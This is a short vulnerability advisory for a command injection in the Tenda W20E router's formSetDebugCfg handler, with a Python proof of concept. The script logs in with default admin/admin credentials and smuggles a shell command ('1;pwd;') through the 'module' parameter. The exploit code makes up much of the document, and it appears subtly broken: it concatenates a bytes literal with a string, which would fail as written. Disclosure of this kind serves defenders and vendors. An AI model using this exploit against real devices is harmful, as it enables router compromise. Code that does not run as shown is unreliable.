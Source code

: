 ## Tenda W20E command injection

### Overview

* Vendor: Tenda

* Product: Tenda W20E
* Version: V15.11.0.6

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/W20E/US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC.zip

### Vulnerability details

Tenda W20E V15.11.0.6 was found to contain a command injection vulnerability in the `formSetDebugCfg` function via the `module` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
import requests

cmd  = 'enable=2'
cmd += '&level=2'
cmd += '&module='+ '1;pwd;'

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/formSetDebugCfg/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

